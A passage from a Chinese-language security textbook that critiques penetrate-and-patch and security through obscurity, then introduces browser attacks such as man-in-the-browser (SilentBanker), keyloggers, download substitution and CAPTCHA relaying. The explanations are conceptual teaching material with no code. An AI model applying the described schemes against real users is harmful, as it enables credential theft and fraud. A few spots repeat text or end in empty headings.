调用程序必须提供正确的输入，但被调用程序如果输入不正确，不应使错误复合化。在检测到问题时，程序可以选择停止或继续。简单地停止（即终止整个执行线程）通常是对严重且无法修复的数据错误的灾难性响应，但只有当执行不会让错误的影响扩大时，继续执行才是可能的。程序员需要决定处理代码检查中检测到的错误的最适当方式。被调用例程的程序员在输入不正确时有以下几种处理选项：

*   **停止**，或发出错误信号并返回。
*   **生成错误消息**并等待用户操作。
*   **生成错误消息**并从头重新调用调用例程（如果该操作强制用户为错误字段输入值，则此操作合适）。
*   **尝试修正**，如果错误显而易见（尽管只有在只有一种可能的修正时，才应采取此选择）。

#### 无效的对策

不幸的是，许多看似美好或听起来不错的想法，经深思熟虑后发现并不那么美好。更糟糕的是，人类倾向于固守想法或观点，因此纠正一个错误的观点，往往比最初形成该观点更为困难。

在安全领域，无论批评者如何有力地谴责或驳斥，仍有若干迷思长期存在。“渗透与修补”迷思实际上包含两个问题：人们假设，真正测试计算机系统的方法，是让一支由杰出的渗透“魔术师”组成的精锐团队进场，尝试使其表现出不安全行为；如果他们失败了（即未暴露任何故障），便宣称该系统是好的。

我们要揭穿的第二个迷思称为**靠隐藏实现安全**，即认为程序员只要不告诉任何人某个秘密，就没人会发现它。这个迷思的价值，约等于把钥匙藏在门垫下。

最后，我们驳回了一种外行的推测：程序员极其聪明，能写出一个程序来识别所有恶意程序。遗憾的是，无论程序员多么聪明，这一壮举已被证明是不可能的。

#### 渗透与修补

因为程序员会犯各种各样的错误，我们永远无法确信所有程序都没有缺陷。我们知道软件开发过程中可采用许多实践，以获得高度的正确性保证。让我们从一种看似诱人、实则*不能*产出可靠代码的技术说起。

早期的计算机安全工作基于**渗透与修补**范式，即分析人员搜索并修复缺陷。通常，会召集一支高素质的“老虎团队”（因其发现缺陷的凶猛执着而得名），通过尝试使系统失效来测试其安全性。该测试被视为安全性的证明；如果系统经受住了老虎团队的攻击，便被认为是安全的，思路大抵如此。

不幸的是，这种尝试性的证明往往沦为生成反例的过程，其中不止一个、而是多个严重的安全问题被暴露出来。问题的发现随即引发了一场快速的“修补”行动，以修复或恢复安全性。然而，修补工作在很大程度上是徒劳的，通常使系统变得*更不*安全，而非更安全，因为它们在试图纠正旧故障时，经常引入了新故障。（关于渗透与修补徒劳性的更多讨论，请参阅 Roger Schell 在 [SCH79] 中的分析。）渗透与修补是一种误导性策略，至少有以下四个原因。

*   修复特定问题的压力，促使开发人员将关注点狭隘地聚焦于故障本身，而非其上下文。特别是，分析人员往往只关注故障的直接原因，而非潜在的设计或需求缺陷。
*   故障往往在故障直接区域之外的地方，产生不明显的副作用。例如，有缺陷的代码可能创建了一个缓冲区却从未释放，随后该缓冲区被其他无关代码使用。修正版释放了该缓冲区。然而，其他地方的代码现在失效了，因为它需要有缺陷代码留下的那个缓冲区，但该缓冲区在修正版中已不复存在。
*   修复一个问题往往会导致别处出现故障。补丁可能只解决了一个地方的问题，而非其他相关地方。例程 A 被 B、C、D 调用，但维护开发人员只知道 B 调用 A 时会失败。问题似乎出在该接口，于是开发人员修补 B 和 A 以修复问题，测试 B、A 以及 B 和 A 组合（使用触发 B–A 交互的输入）。一切似乎都正常。很久以后，另一个故障浮现，追溯到 C–A 接口。另一位不知情 B 和 D 存在的程序员，处理 C–A 接口的问题，不出所料地引入了潜在故障。在维护中，极少有人能看到全貌，尤其是在时间压力下工作时。
*   无法妥善修复故障，因为系统功能或性能会因此受损。可能只修复了故障的某些实例，或者只减轻了损害而无法预防。

***

**渗透与修补之所以失败，是因为它仓促行事、忽略故障上下文、且聚焦于单一故障而非完整系统。**

***

在某些人心中，渗透测试者是能发现常人看不见缺陷的天才；因此，如果代码通过了此类天才的审查，就一定是完美的。优秀的测试人员确实拥有深度和广度的经验，能让他们迅速想到潜在弱点，例如他们以前见过的类似缺陷。这种经验智慧——虽有用——却不能保证正确性。

专业安全社区之外的人，仍觉得以单一异常的方式发现并修复安全问题很有吸引力。然而，安全专业人员建议采用更结构化、更审慎的方法来开发安全代码。

#### 靠隐藏实现安全

计算机安全专家使用**靠隐藏实现安全**或**通过隐藏实现安全**一词，来描述一种无效的对策：假设攻击者不会发现漏洞。靠隐藏实现安全，是指认为只要不向实现小组外的任何人透露系统内部机制的任何信息，系统就是安全的。在二进制文件或脚本中隐藏账户密码，并假设没人能找到它们，就是典型案例。Sidebar 3-14 描述了另一个错误隐藏的例子，其中删除的文本并未真正被删除。系统所有者假设攻击者永远不会猜测、发现或推断出任何未公开的信息。例如，想想本章前面描述的拨号程序。该实用程序的开发者可能以为，隐藏 100 位数字的限制就能防止其被发现或利用。显然，这个假设是错误的。

***

**本意隐藏的事物，鲜能长久隐藏。攻击者会发现并利用许多隐藏的事物。**

***

***

Sidebar 3-14 隐藏了，却未被遗忘

何时东西才算没了？按下删除键，它就消失了，对吧？错了。

到目前为止，您已知道删除的文件并未真正删除；它们被移到了回收站。删除的邮件进入“已删除项目”文件夹。临时 Internet 页面会在历史记录文件夹中停留几天，等待再次访问。但您期望按下删除键，按键记录就消失。

Microsoft Word 会保存文档创建以来的所有更改和批注。假设你和一位同事合作撰写一份文档，你引用了他人的成果，而你的同事插入了一条批注：“这项研究是垃圾。”你表示赞同，于是删除了该引用和同事的批注。随后你将论文提交期刊审稿，巧合的是，你的论文被送到了你所贬低的那位作者手中。接着，审稿人恰好开启了修订标记，不仅发现了被删除的引用，还发现了你同事被删除的批注。（参见 [BYE04]。）如果你真想删除那些文本，本应使用 `Microsoft Hidden Data Removal Tool`（Microsoft 隐藏数据删除工具）。（当然，用二进制编辑器检查文件才是确保冒犯性文本真正消失的唯一途径。）

Adobe PDF 文档格式是一种较为简单的格式，旨在提供一种与平台无关的方式来显示（和打印）文档。有些人将 Word 文档转换为 PDF 以消除隐藏的敏感数据。这确实移除了修订追踪数据。但它保留了甚至不可见的输出。有些人创建一个白色方框覆盖在待隐藏的数据上，例如，遮盖地图的一部分或隐藏表格中的利润列。打印文件时，该方框会遮挡住你的敏感信息。但 PDF 格式保留了文档中的所有图层，因此接收者可以有效地“揭开”白色方框以显露隐藏内容。NSA 发布了一份报告，详述了确保删除内容真正被删除的步骤 [NSA05]。

或者，如果你想表明某内容*曾经*存在但已被删除，可以使用 `Microsoft Redaction Tool`（Microsoft 涂黑工具），据推测，它会删除底层文本并用一条粗黑线替代。

***

##### Auguste Kerckhoffs 原则

19 世纪荷兰密码学家 Auguste Kerckhoffs 阐述了可靠密码系统的若干原则 [KER83]。他的第二原则^3 同样适用于计算机系统的安全：

> 系统不应依赖于保密，且即便系统落入敌手，安全性也不应受损。

3. “Il faut qu’il n’exige pas le secret, et qu’il puisse sans inconvénient tomber entre les mains de l’ennemi.”

请注意，Kerckhoffs 并非建议将系统交给敌人，而是说如果敌人以任何方式偶然获得了系统，安全性不应因此失效。无需给敌人以公平机会；只需确保当（而非假如）敌人得知安全机制时，该知识不会损害安全性。Johansson 和 Grimes [JOH08a] 更详细地论述了“靠隐蔽实现安全”的谬误。

##### 工作因子

**工作因子**（work factor）是指攻击者为破坏一项安全控制所需付出的工作量。在某些情况下（如密码猜测），我们可以通过确定测试单个密码所需时间，并乘以可能密码的总数来估算工作因子。如果攻击者能走捷径，例如攻击者知道密码以大写字母开头，工作因子会相应降低。如果所需工作量高得令人望而却步，例如破解一个密码需要上百年，我们便可断定该安全机制是充分的。（注意，某些材料（如外交电报）可能极其敏感，即便过了一百年也不应泄露，因此我们需要寻找一种工作因子更长的保护机制。）

我们不能假设攻击者会选择破坏安全最慢的路径；事实上，我们必须假设一个专注的攻击者会采取看似最快的任何途径。因此，就密码而言，攻击者可能有以下几种途径：

*   尝试所有密码，按某种顺序穷举，例如从最短到最长。
*   猜测常用密码。
*   旁观他人输入密码。
*   贿赂他人泄露密码。
*   在密码被输入和使用的过程中拦截（正如在 Churchill High School 所发生的那样）。
*   假装忘记密码，并猜测所谓的秘密恢复问题的答案。
*   在应用程序中覆盖密码请求。

如果我们对密码进行简单的工作因子计算，可能会得出结论：需要 *x* 个时间单位乘以 *y* 个密码，假设平均需尝试一半密码才能猜中正确密码，工作因子为 *x*×*y*/2。但如果攻击者使用除第一种之外的任何技术，所需时间可能截然不同。因此，在确定工作因子时，我们必须假设攻击者使用最简单的途径，这可能只需几分钟，而非几十年。

##### 靠隐蔽实现安全

靠隐蔽实现安全是一种错误的对策，因为它假设攻击者总会采取困难的途径，而非简单的途径。攻击者和我们大多数人一样懒惰；如果存在省力的方法，他们就会找到。这种方法可能是查看门垫下找钥匙，而不是破门而入。在后续章节中，当某个对策可能属于靠隐蔽实现安全时，我们会提醒读者。

##### 完美的良性–恶性代码分离器

程序能将人送上月球，能重启衰竭的心脏，能击败电视节目《危险边缘》的前冠军。它们肯定能将良性程序与恶性程序区分开，对吧？遗憾的是，不能。

首先，我们说一个程序是良性的时，必须小心界定含义。（我们使用简单的“良性”和“恶性”术语，而非更细致的术语，如安全、可靠或非恶意。）正如 侧边栏 3-11 所述，每个程序都有副作用：它占用内存、激活特定硬件、消耗特定时间，更不用说重排列表、以特定颜色呈现输出等额外活动。我们可能看到却未注意到其中一些。如果设计者规定输出必须以特定色调的红色呈现，我们可以检查程序是否确实如此。然而，在大多数情况下，输出颜色未被指定，因此设计者或测试者不能仅因输出呈红色而非黑色就判定程序不合格或恶性。但如果我们甚至无法判定这种效应是否可接受，程序又如何能做到？而隐藏效应（计算耗时 0.379 微秒、使用寄存器 2 而非寄存器 4）更难评判。因此，我们现在无法，将来大概也永远无法，精确定义何为良性或恶性，以便让计算机程序可靠地判断其他程序是良性还是恶性。

即使我们能令人满意地定义“良性”，逻辑学的一个根本限制也会阻碍我们。虽然这远超出本书范围，但可判定性或可计算性领域研究的是某些事物是否永远可被编程，而非仅限于今天或使用当今的语言和机器。可计算性的核心是所谓的**停机问题**，即询问一个计算机程序是停止执行还是永远运行下去。我们当然可以回答许多程序的这个问题。但英国数学家 Alan Turing^4 在 1936 年（值得注意的是，远在现代计算机出现之前）证明：不可能编写一个程序，来针对*任何可能的程序*和*任何可能的输入流*解决停机问题。我们的良性程序检查器会陷入停机问题的陷阱：如果我们能识别出所有良性程序，就等于解决了停机问题，而这被证明是不可解的。因此，我们永远不会拥有一个全面的良性程序检查器。

4. Alan Turing 在二战期间也是英国的关键贡献者，他设计的多种技术成功破解了德军的加密通信。

这一负面结果并不意味着我们无法检查某些程序的优劣。事实上，我们可以检查某些程序并判定它们是糟糕的，甚至可以编写代码来检测修改受保护内存位置或利用已知安全漏洞的程序。因此，是的，我们*可以*检测出*一些*糟糕的程序，只是无法检测出*所有*糟糕的程序。

### 结论

在本章中，我们概览了程序和编程：程序员犯下的错误以及攻击者利用的漏洞。正如新闻几乎每日报道的那样，这些缺陷可能导致严重后果。然而，正如我们在本章末尾所述，存在缓解这些缓解这些缺陷的技术。

本章叙述的问题构成了本书其余大部分内容的基础。程序实现了 Web 浏览器、网站应用程序、操作系统、网络技术、云基础设施和移动设备。缓冲区溢出可能发生在电子表格程序或网络设备中，尽管在前一种情况下影响更为局部化。尽管如此，当你继续阅读本书其余部分时，应牢记本章的问题。

在下一章中，我们将探讨互联网的安全性，调查影响用户的危害。在本章中，我们隐性地关注在一台计算机上运行的单个程序，尽管我们已承认外部行为体的存在，例如当我们探讨恶意代码的传播时。第 4 章涉及本地用户和潜在恶意的远程互联网。

### 练习

**1.** 假设你是一名海关检查员。你负责检查手提箱中可能隐藏珠宝等大件物品的暗层。描述你将遵循的检查这些暗层的程序。

**2.** 你的老板给你一颗微处理器及其技术参考手册。你被要求检查处理器的未文档化特性。由于可能性太多，你无法用每一种操作数组合测试每一个操作码。概述你将用来识别和表征未公开操作的策略。

**3.** 你的老板给你一个计算机程序及其技术参考手册。你被要求检查程序的未文档化特性。这项活动与上一题的任务有何相似之处？有何不同？哪项更可行？为什么？

**4.** 编写一个程序来计算 1 到 10 的整数之和。程序员在可复用性和可维护性方面受过良好训练，因此编写程序使其计算从 k 到 n 的数字之和。然而，一个安全专家小组仔细审查了代码。该小组认证该程序正确地将 k 设为 1，将 n 设为 10；因此，该程序被认证为受到适当限制，因为它始终精确地在 1 到 10 的范围内操作。列出该程序被破坏的不同方式，使得在执行期间它计算出不同的和，例如 3 到 20。

**5.** 限制不受信任程序影响的一种方法是隔离：控制哪些进程可以访问该不受信任程序，以及该程序可以访问哪些其他进程和数据。解释隔离如何应用于前面计算 1 到 10 整数和的程序示例。

**6.** 列出三种可用于检测或防止差一错误的控制措施。

**7.** 隐蔽存储信道和隐蔽定时信道之间的区别并非泾渭分明。每一个定时信道都可以转换为一个等效的存储信道。解释这种转换如何进行。

**8.** 列出多访问计算系统中隐蔽信道每秒泄露信息量的限制。

**9.** 电子邮件系统可被用来泄露信息。首先，解释泄露如何发生。然后，确定可用于检测或防止泄露的控制措施。

**10.** 模块化可能产生负面影响，也可能产生正面影响。过度模块化的程序在非常小的模块中执行操作，导致阅读者难以获得系统试图做什么的整体视角。也就是说，虽然可能容易确定单个模块的功能以及小模块组的功能，但很难理解它们作为一个整体系统时的功能。建议一种在程序开发期间可用于提供这种视角的方法。

**11.** 给你一个据称通过哈希编码管理项目列表的程序。如果项目存在，该程序应返回项目的位置；如果项目不在列表中，则返回项目应插入的位置。随程序附带一份手册，描述诸如表中项目的预期格式、表大小和特定调用序列等参数。你只有该程序的目标代码，没有源代码。列出你将用来测试程序功能正确性的测试用例。

**12.** 你正在编写一个将节点添加到双向链表的过程。运行该过程的系统会发生周期性硬件故障。你的程序要维护的列表至关重要。即使机器在执行你的过程中途发生故障，你的程序也必须确保列表的完整性。提供你将在过程中用于更新列表的各个语句。（你的语句应少于十几条。）解释每条指令执行后发生机器故障的影响。描述你将如何修改此过程，以便在机器故障后恢复基本列表的完整性。

**13.** 解释访问日志中的信息如何用于识别获得计算系统未授权访问的冒名顶替者的真实身份。描述日志中可用于组合识别冒名顶替者的几个不同信息片段。

**14.** 已有几项提议，针对一种能够解密加密数据和机器指令，然后在数据上执行指令的处理器。该处理器随后会加密结果。这种处理器有何用处？这种处理器的设计要求是什么？

**15.** 解释在什么情况下“渗透与修补”是一种有用的程序维护策略。

**16.** 描述一种最小权限是提高安全性的良好策略的编程场景。

**17.** 解释为什么基因多样性是安全开发的良好原则。引用一个缺乏多样性对安全性产生负面影响的例子。

**18.** 描述安全测试与普通功能测试有何不同。通过安全测试的标准与功能标准有何不同？

**19.**


(a) 你收到一封声称来自你银行的电子邮件。它要求你出于某个听起来合理的行政目的点击一个链接。你如何验证该消息确实来自你的银行？

(b) 现在扮演攻击者的角色。你如何拦截 (a) 部分描述的消息并将其转化为你的目的，同时仍让银行和客户都认为该消息是真实且可信的？

### 20. 开放设计

开放设计似乎有利于攻击者，因为它当然开放了实现，或许也开放了设计供攻击者研究。论证开放设计如何覆盖这种表面上的优势，并实际上导致可靠的安全性。

## 4. Web——用户端

---

在本章中：

*   针对浏览器的攻击
*   针对网站及源自网站的攻击
*   窃取敏感数据的攻击
*   通过电子邮件的攻击

---

在本章中，我们将超越上一章的通用程序，转向支持用户与 Internet 交互的更具体的代码。当然，Internet 代码具有通用程序的所有潜在问题，阅读本章时你应牢记恶意代码、缓冲区溢出和后门。然而，在本章中，我们将更具体地探讨 Internet 访问所带来的安全威胁和漏洞类型。我们的重点在于用户或客户端：与 Internet 站点交互的个人用户可能遭受的危害。然后，在第 6 章中，我们将探讨主要超出用户领域或控制范围的安全网络问题，例如通信拦截、重放攻击和拒绝服务。

我们首先审视浏览器，这是大多数用户视为通往 Internet 门户的软件。正如你已知，浏览器是一种角色相对简单的软件：连接到特定的 Web 地址，从该地址获取并显示内容，以及将用户数据传输到该地址。浏览器的安全问题源于对该简单描述的若干复杂化因素，例如：

* 浏览器往往连接的地址不止地址栏中显示的那一个。
* 获取数据可能涉及访问众多位置以获取图片、音频内容和其他链接内容。
* 浏览器软件本身可能是恶意的，或被破坏以获取恶意功能。
* 流行浏览器支持加载项，即用于向浏览器添加新功能的额外代码，但这些加载项本身可能包含破坏性代码。
* 数据显示涉及一套丰富的命令集，控制渲染、定位、动态效果、分层甚至不可见性。
* 浏览器可以访问用户计算机上的任意数据（受访问控制限制）；通常浏览器以与用户相同的权限运行。
* 面向用户的数据传输是不可见的，意味着它们在用户不知情或未明确许可的情况下发生。

在本地计算机上，你可能会限制电子表格程序仅能访问特定目录中的文件。照片编辑软件可以在离线状态下运行，以确保照片不被泄露到外部。用户甚至可以检查文字处理文件的二进制或文本内容，以至少部分确认文档不包含特定文本。

**浏览器将用户连接到外部网络，但极少用户能监控实际传输的数据**

不幸的是，这些限制对浏览器均不适用。就其本质而言，浏览器与外部网络交互，对大多数用户和用途来说，监控这些网络交互的目的地或内容是不可行的。许多 Web 交互始于站点 A，但随后自动连接到站点 B、C 和 D，往往在用户不知情的情况下，更不用说获得许可了。更糟的是，一旦数据到达站点 A，用户无法控制 A 对其做什么。

浏览器的效果是即时且短暂的：按下一个键或点击一个链接就会发送信号，且很少有完整的日志显示浏览器通信了什么。简而言之，浏览器是标准、直观的软件，却使用户面临比大多数其他类型软件显著更大的安全威胁。毫不奇怪，攻击浏览器既流行又有效。浏览器不仅是热门攻击目标，而且呈现出许多可供攻击的漏洞，如图 4-1 所示，该图显示了主要浏览器（Google Chrome、Mozilla Firefox、Microsoft Internet Explorer、Opera 和 Safari）发现的漏洞数量，据 Secunia 报道。


**图 4-1** 浏览器发现的漏洞数量

有了这份涉及 Web 站点和浏览器的潜在漏洞清单，Web 用户遭受攻击的惊人频率也就不足为奇了。还要注意，当主要供应商发布代码补丁时，浏览器往往牵涉其中。在本章中，我们将探讨最终用户的安全问题，通常涉及浏览器或 Web 站点，且通常恶意针对用户。

### 4.1 浏览器攻击

攻击者针对浏览器旨在获取敏感信息，如账号或认证密码；诱导用户，例如使用弹窗广告；或安装恶意软件。针对浏览器有三种攻击向量：

* 攻击操作系统，使其阻碍浏览器的正确和安全运行。
* 攻击浏览器或其组件、加载项或插件，以改变其活动。
* 拦截或修改浏览器发出或接收的通信。

我们将在第 5 章中讨论操作系统问题，在第 6 章中讨论网络通信。我们本节首先探讨浏览器的漏洞及防范此类攻击的方法。

#### 浏览器攻击类型

由于许多人（其中一些相对缺乏经验或轻信）使用浏览器，它们对攻击者极具吸引力。纸质书就是它看起来的样子；没有隐藏的代理能根据阅读者改变页面上的文本。电话、电视和广播大抵相同：从中心点发送到用户设备的信号通常未被破坏，即使被更改，变化通常也是重大且易于检测的，如噪音或模糊图像。因此，人们自然期望浏览器具有相同的保真度，尽管浏览器是可编程设备，且信号在通信过程中暴露于微妙的修改之下。

在本节中，我们将介绍几种通过浏览器传递的攻击。

##### 中间人攻击（浏览器中间人）

**中间人攻击（浏览器中间人）** 是感染浏览器的恶意代码的一个示例。插入浏览器的代码可以读取、复制和重新分发用户在浏览器中输入的任何内容。威胁在于攻击者将拦截并重用凭据以访问金融账户和其他敏感数据。

**中间人攻击（浏览器中间人）：拦截通过浏览器传递数据的特洛伊木马**

2008 年 1 月，由 Symantec 的 Liam Omurchu 领导的安全研究人员检测到一种新的特洛伊木马，他们称其为 SilentBanker。该代码作为加载项或浏览器帮助程序对象链接到受害者的浏览器；在某些版本中，它将自己列为显示视频的插件。作为帮助程序对象，它设置自身以拦截内部浏览器调用，包括接收来自键盘的数据、向 URL 发送数据、生成或导入加密密钥、读取文件（包括在屏幕上显示该文件）或连接到站点的调用；此列表几乎涵盖了浏览器所做的一切。

SilentBanker 从全球流行银行的 400 多个 URL 列表开始。每当它发现用户访问其中一个站点时，它就会通过特洛伊木马重定向用户的击键，并记录客户详细信息，将其转发到远程计算机（推测由代码创建者控制）。

###### 银行业务和其他金融交易通常在传输过程中受到加密会话的保护，该会话使用名为 SSL 或 HTTPS 的协议（我们将在第 6 章中解释），并由浏览器屏幕上的锁形图标标识。该协议意味着用户的通信在传输过程中是加密的。但请记住，密码学虽然强大，但只能保护其能控制的内容。因为 SilentBanker 嵌入在浏览器内部，它如图 4-2 所示侵入了通信进程。当用户输入数据时，操作系统将字符传递给浏览器。但在浏览器能够加密数据以传输给银行之前，SilentBanker 介入了，充当浏览器的一部分。请注意，银行使用的其他安全方法，如仅客户能识别的图像或双因素认证，都无法应对这种时序漏洞。此外，地址栏中的 URL 看起来是真实的，而且确实是真实的，因为浏览器实际上确实与合法的银行网站保持了连接。


**图 4-2** SilentBanker 在浏览器中间运行

***

**SSL 加密应用于浏览器中；数据在加密前处于脆弱状态。**

***

如果说拦截姓名、账号和认证数据等详细信息还不够，SilentBanker 还改变了客户操作的效果。因此，例如，如果客户指示银行将资金转账到 A 银行的一个账户，SilentBanker 会将该请求转换为转账到其在 B 银行的自有账户，而客户的银行会欣然接受，就好像该请求来自客户一样。当银行返回确认信息时，SilentBanker 在屏幕显示前更改了详细信息。因此，只有当资金未按预期出现在 A 银行时，客户才会发现调包行为。

SilentBanker 的一个变种使用如图 4-3 所示的显示界面拦截其他敏感用户数据。用户会看到许多数据请求框，而这个看起来很真实。对令牌值的请求可能会让一些用户觉得奇怪，但许多用户会看到地址栏上的银行 URL，并忠实地输入私人数据。


**图 4-3** 浏览器中间人获取的额外数据

正如你所见，浏览器中间人攻击可能造成毁灭性后果，因为它们代表一个有效的、经过认证的用户。木马程序可以巧妙地潜入用户和银行网站之间，因此银行的所有内容看起来依然真实。SilentBanker 对用户影响不大，只是因为它被相对较快地发现，且病毒检测程序能够及时将其清除。尽管如此，这段代码展示了此类攻击可以有多强大。

##### 键盘记录器

我们介绍另一种类似于浏览器中间人的攻击方法。**键盘记录器**（或**按键记录器**）是记录所有输入按键的硬件或软件。记录器要么保留这些按键供攻击者将来使用，要么通过网络连接将它们发送给攻击者。

作为硬件设备，键盘记录器是一个插入 USB 端口的小物件，类似于插入式无线适配器或闪存棒。当然，要攻破一台计算机，你必须拥有物理访问权限来安装（稍后取回）该设备。你还需要隐藏该设备，以免用户注意到记录器（例如，将其安装在台式机的背面）。在软件方面，记录器只是一个像任何恶意代码一样安装的程序。此类设备可以捕获密码、登录身份以及键盘上输入的所有其他数据。虽然不限于浏览器交互，但键盘记录器当然可以记录所有发往浏览器的键盘输入。

##### 页面中间人

**页面中间人**攻击是另一种浏览器攻击，其中用户被重定向到另一个页面。类似于浏览器中间人攻击，页面攻击可能会等到用户访问了特定网站，然后向用户呈现一个虚构页面。例如，当用户点击“登录”前往任意网站的登录页面时，攻击可能会将用户重定向到攻击者的页面，攻击者可在该页面捕获用户的凭证。

这两种浏览器攻击之间虽有细微差别，但确实存在：浏览器中间人行为是受感染浏览器的一个示例，它可能永远不会改变用户访问的网站，而是在后台工作以捕获信息。而在页面中间人行为中，攻击者重定向用户，向用户呈现不同的网页供其查看。

##### 程序下载替换

页面中间人攻击常与下载替换相结合。在**下载替换**中，攻击者呈现一个包含诱人且看似无害程序的页面供用户下载，例如浏览器工具栏或照片整理工具。用户不知道的是，代替或除了预期程序外，攻击者下载并安装了恶意代码。

***

**同意安装程序的用户无法知道该程序实际上会做什么。**

***

对攻击者而言，程序下载替换的优势在于，用户已被训练得对程序下载保持警惕，正是因为害怕下载恶意代码。在这种攻击中，用户知情并同意下载，却未意识到实际安装了什么代码。（话又说回来，用户点击`[是]`后，很少知道到底安装了什么。）这种攻击还击败了通常会阻止软件下载和安装的用户访问控制，因为用户有意接受了该软件。

##### 用户中间人

另一种攻击形式将人置于两个自动化进程之间，使人类在不知情的情况下帮助垃圾邮件发送者自动注册免费电子邮件账户。

**CAPTCHA**（验证码）是一种据称只有人类能解决的谜题，因此服务器应用程序可以区分发出请求的人类和重复生成相同请求的自动化程序。想想那些请求投票以确定电视节目受欢迎程度的网站。为避免被自动化程序脚本产生的虚假投票愚弄，投票网站有时会使用 CAPTCHA 来确保与活跃的人类进行交互（CAPTCHA 是“Completely Automated Public Turing test to tell Computers and Humans Apart”的首字母缩写——有时想出匹配巧妙首字母缩写的单词比做项目本身还难）。

谜题是以弯曲形状显示在颗粒感背景上的数字和字母串，可能带有多余的线条，如图 4-4 所示；用户必须识别该字符串并将其输入输入框。扭曲旨在击败可能提取字符的光学字符识别软件。(图 4-5 展示了一个滑稽的 CAPTCHA 谜题恶搞。) 人类仍能解读的内容与对模式识别器而言过度扭曲的内容之间界限很微妙，如侧边栏 4-1 所述。


**图 4-4** CAPTCHA 示例


**图 4-5** CAPTCHA 恶搞

***

##### 侧边栏 4-1 CAPTCHA？抓到你了！

我们已经看到 CAPTCHA 如何利用人类在模式识别方面远胜于计算机的特点进行设计。但 CAPTCHA 也有其漏洞，并且可以用本书介绍的安全工程技术加以攻破。正如我们在每一章中所见，狡猾的攻击者会寻找可利用的漏洞，然后设计攻击来利用它。

同样地，Jeff Yan 和 Ahmad Salah El Ahmad [YAN11] 通过关注不变量——即即使 CAPTCHA 发生扭曲也不会改变的事物——击败了 CAPTCHA。他们调查了主要 Web 服务生成的 CAPTCHA，包括 Google、Microsoft 和 Yahoo 为其免费邮件服务（如 Hotmail）提供的 CAPTCHA。一个现已停运的名为 CAPTCHAservice.org 的服务曾向商业网站收费提供 CAPTCHA。该服务的 CAPTCHA 中每个字符的像素数各不相同，但某一给定字符的像素数在字符扭曲时保持不变——这一不变量使得 Yan 和 El Ahmad 能够在无需识别字符的情况下，将一个字符与另一个字符区分开来。Yahoo 的 CAPTCHA 使用固定角度进行图像变换。Yan 和 El Ahmad 指出：“利用不变量是一种经典的密码分析策略。例如，差分密码分析通过观察一组明文对具有在多轮加密中保持不变的不变关系而起作用。我们的工作表明，利用不变量对于研究 CAPTCHA 的鲁棒性也同样有效。”

Yan 和 Ahmad 成功地使用简单技术击败了 CAPTCHA，如像素计数、颜色填充分割和直方图分析。他们击败了两类不变量：像素级和字符串级。像素级不变量可通过在像素级处理 CAPTCHA 图像来利用，基于那些不发生变化的特征（如像素数量或字符角度）。字符串级不变量在整个字符串长度上保持不变。例如，Microsoft 在 2007 年使用的 CAPTCHA 在挑战字符串中具有固定的文本长度；这一不变量使 Yan 和 El Ahmad 能够识别并分割连在一起的字符。依赖字典单词是另一种字符串级不变量；正如我们在基于字典的密码中所见，字典限制了可能选择的数量。

那么，如何消除这些漏洞呢？通过引入一定程度的随机性，例如字符串中不可预测的字符数量。Yan 和 El Ahmad 建议“引入更多类型的全局形状模式，并使它们以随机顺序出现，从而使计算机更难区分每种类型。”Google 的 CAPTCHA 允许字符连在一起；只要不影响可读性，就有可能去除字符间的空白。Yan 和 El Ahmad 指出，这种安全工程分析能带来更健壮的 CAPTCHA，这一过程与我们在其他安全技术（如密码学和软件开发）中看到的过程相仿。

***

提供免费邮件账户的网站（如 Yahoo Mail 和 Hotmail）在账户创建阶段使用 CAPTCHA，以确保只有真人才能获得账户。邮件服务不希望其账户被垃圾邮件发送者利用，后者会使用成千上万个尚未被垃圾邮件过滤器识别的新账户名；在利用该账户发送大量垃圾邮件后，发送者会放弃那些账户名，转而使用另一批。因此，垃圾邮件发送者需要源源不断的新账户，并希望实现自动化获取新账户的过程。

***

##### 侧边栏 4-2：中间人欺骗解救哥伦比亚人质

哥伦比亚游击队于 2002 年俘虏了总统候选人 Ingrid Betancourt 及其他政治犯。该游击队属于“哥伦比亚革命武装力量”（FARC）运动，视 Betancourt 和三名美国承包商为其最有价值的人质。这些俘虏于 2008 年通过一项涉及两次渗透的计划获救：一次渗透当地扣押人质的小组，另一次渗透 FARC 中央指挥结构。

在渗透游击队中央指挥机构后，哥伦比亚国防官员欺骗当地 FARC 指挥官（人称 Cesar），让其相信人质将被移交给 FARC 最高指挥官 Alfonso Cano。由于渗透者知道 Cesar 不认识 FARC 组织中的大多数其他人，他们利用这一知识优势，向 Cesar 发送伪造消息，声称来自 Cano 的幕僚，告知移交人质的计划。根据计划，Cesar 被要求让人质——Betancourt、美国人及其他 11 名哥伦比亚人——做好准备，等待直升机前来接应。两架纯白色的直升机，满载扮演游击队员的士兵（演技甚至优于一些专业演员），飞入了 FARC 营地。

直升机上的特工捆绑人质的双手并将他们强行带上机；Cesar 和另一名看守也登上了直升机，但起飞后很快被士兵制服。Betancourt 和其他人真以为自己被转移到另一个 FARC 营地，但指挥官告诉她他们是来营救她的；只有当她看见以前的看守被捆绑躺在地板上时，她才真正相信自己终于自由了。

对当地营地和 FARC 高层指挥结构的双重渗透，使哥伦比亚国防部门得以实施这一复杂的中间人攻击。在精心准备期间，双端的渗透者介入并篡改了 Cesar 与 Cano 之间的通信。这一中间人骗局之所以棘手，是因为闯入者必须能够实时代表 Cesar 和 Cano，并掌握适合这两位 FARC 官员的事实。当因知识不足而陷入困境时，中间人会切断电话连接，考虑到当时哥伦比亚电信网络的状况，这显得很可信。

***

Petmail ([`petmail.lothar.com`](http://petmail.lothar.com)) 是一个提议的反垃圾邮件系统。在其描述中，作者假设了针对免费邮件账户供应商 CAPTCHA 的以下中间人攻击。首先，垃圾邮件发送者创建一个吸引访问者的网站；作者建议设立一个包含色情照片的网站。其次，垃圾邮件发送者要求人们解决一个 CAPTCHA 才能进入网站查看照片。当用户请求访问时，垃圾邮件发起者自动生成一个创建新邮件账户的请求（例如 Hotmail）。Hotmail 提供一个 CAPTCHA，垃圾邮件发送者随即将其呈现给色情内容请求者。当请求者输入答案时，垃圾邮件发送者将该答案转发回 Hotmail。如果答案成功，垃圾邮件发送者便获得一个新账户并允许用户查看照片；如果答案失败，垃圾邮件发送者向用户呈现一个新的 CAPTCHA 挑战。通过这种方式，攻击者在中间将两个交互拼接在一起，将少量的账户创建线程插入到照片访问线程的中间。用户察觉不到中间的交互。

###### 浏览器攻击为何得逞：识别与认证的失败

这些中间人攻击的核心失败在于错误的认证。如果 A 无法确信消息发送者真的是 B，A 就无法信任消息中任何内容的真实性。在本节中，我们将在不同语境下探讨认证问题。

####### 人工认证

######## 计算机认证


